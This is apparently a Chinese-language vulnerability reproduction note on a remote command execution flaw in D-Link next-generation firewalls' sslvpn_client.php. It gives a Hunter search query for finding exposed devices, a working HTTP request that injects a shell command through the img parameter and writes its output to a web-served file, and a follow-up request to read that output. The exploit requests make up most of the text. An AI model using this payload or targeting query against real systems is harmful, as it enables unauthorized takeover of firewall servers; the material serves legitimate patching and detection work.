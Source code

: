 # D-Link下一代防火墙sslvpn_client存在远程命令执行漏洞

# 一、漏洞简介
D-Link下一代防火墙sslvpn_client存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ D-Link下一代防火墙

# 三、资产测绘
+ hunter`web.title=="D-Link下一代防火墙"`
+ 特征

![1701766678324-1f5557b7-3893-4c8d-a5df-8cf2ad6ad373.png](./img/KG6VCY8j1nlRnvvQ/1701766678324-1f5557b7-3893-4c8d-a5df-8cf2ad6ad373-805129.png)

# 四、漏洞复现
```java
GET /sslvpn/sslvpn_client.php?client=logoImg&img=x%20/tmp|echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/ceshi.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e.png](./img/KG6VCY8j1nlRnvvQ/1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e-398392.png)

获取命令执行结果

```java
GET /sslvpn/ceshi.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762342384-224cbced-19ed-428d-b26d-9957865251d2.png](./img/KG6VCY8j1nlRnvvQ/1701762342384-224cbced-19ed-428d-b26d-9957865251d2-230075.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cw2r5v96hvhz36zk>